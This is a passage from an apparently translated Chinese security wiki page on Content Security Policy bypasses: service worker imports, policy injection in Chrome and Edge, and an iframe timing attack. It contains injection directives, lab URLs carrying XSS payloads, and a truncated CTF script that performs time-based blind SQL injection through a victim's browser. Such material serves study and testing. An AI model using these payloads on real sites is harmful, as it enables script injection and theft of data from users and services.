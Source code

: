 ### 使用服务工作者

服务工作者的**`importScripts`**函数不受CSP限制：

{% content-ref url="../xss-cross-site-scripting/abusing-service-workers.md" %}
[abusing-service-workers.md](../xss-cross-site-scripting/abusing-service-workers.md)
{% endcontent-ref %}

### 策略注入

**研究：** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### Chrome

如果您发送的**参数**被**粘贴在** **策略的声明**中，那么您可以以某种方式**更改**该**策略**，使其**无效**。您可以使用以下任何绕过方法**允许脚本 'unsafe-inline'**：
```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```
因为这个指令会**覆盖现有的script-src指令**。\
你可以在这里找到一个例子: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

在Edge中要简单得多。如果你可以在CSP中添加这个: **`;_`** **Edge**会**丢弃**整个**策略**。\
例子: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;_\&y=%3Cscript%3Ealert\(1\)%3C/script%3E)

### img-src \*; 通过XSS（iframe）- 时间攻击

注意缺少指令`'unsafe-inline'`\
这次你可以让受害者通过**XSS**加载一个在**你控制**下的页面，使用一个`<iframe`。这次你将让受害者访问你想要提取信息的页面（**CSRF**）。你无法访问页面的内容，但如果你能**控制页面加载所需的时间**，你就可以提取所需的信息。

这次将提取一个**标志**，每当通过SQLi**正确猜测一个字符**时，**响应**由于睡眠函数而**花费更多时间**。然后，你将能够提取标志:
```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
x = escape(x.replace(/_/g, '\\_'));
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`;
}

function gen2(x) {
x = escape(x);
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) {
let h = performance.now();
f.location = (end ? gen2(word) : gen(word));
await new Promise(r => {
g.onload = r;
});
let diff = performance.now() - h;
return diff > 300;
```